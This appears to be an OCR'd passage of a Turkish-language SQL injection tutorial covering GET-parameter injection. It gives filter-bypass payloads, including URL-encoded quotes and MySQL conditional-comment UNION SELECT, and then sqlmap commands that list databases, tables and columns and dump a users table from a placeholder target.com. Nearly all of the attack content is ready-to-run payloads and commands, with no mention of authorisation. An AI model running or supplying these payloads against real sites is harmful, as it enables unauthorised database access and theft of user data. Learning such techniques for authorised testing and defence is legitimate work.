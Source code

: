 4️⃣ GET SQLi Bypass Teknikleri
Bazı güvenlik önlemlerini aşmak için şu teknikler kullanılabilir:
🔹 1. URL Encoding (Filtre Aşma)
Eğer doğrudan tırnaklar (') engelleniyorsa, URL encoding kullanılabilir:
plaintext
```plaintext
https://target.com/product.php?id=5%27%20OR%201=1--
```

📌 %27, ' karakterinin URL kodlanmış halidir.
🔹 2. SQL Komutlarını Değiştirme Bazı filtreleme sistemleri standart SQL kelimelerini engelleyebilir. Bunu aşmak için:
plaintext
```sql
https://target.com/product.php?id=5 /*!50000 UNION */ SELECT 1,2,3--
```

📌 /*!50000 MySQL’in koşullu yorum özelliğini kullanır ve filtreleri atlatabilir.

📌 SONUÇ
✅ GET SQLi Açığını Test Etme
id parametresine ' ekleyerek hata mesajı olup olmadığını kontrol et.
AND 1=1 ve AND 1=2 sorgularını kullanarak Boolean tabanlı test yap.
UNION SELECT ile veri sızdırılıp sızdırılamadığını kontrol et.
```bash
✅ SQLmap ile Otomatik Test
4. sqlmap -u "https://target.com/product.php?id=5" --dbs komutu ile veritabanı yapılarını keşfet.
```
✅ Filtreleri Aşma Teknikleri
5. URL encoding, SQL yorumları ve özel karakter kaçırma yöntemlerini dene.
_______________________________________________________________________________________
📌 SQLmap ile Veritabanındaki Tüm Verileri Görme
1️⃣ Öncelikle veritabanı adlarını listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
```
✅ Bu komut, mevcut veritabanı isimlerini görüntüler.
2️⃣ Bir veritabanı seç ve tabloları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db --tables
```
✅ target_db yerine, önceki adımda bulunan veritabanı adını yaz.
3️⃣ Bir tablodaki sütunları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --columns
```

✅ users tablosunun sütunlarını görüntüler.
4️⃣ Tüm verileri çek (döküm al):
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --dump
```
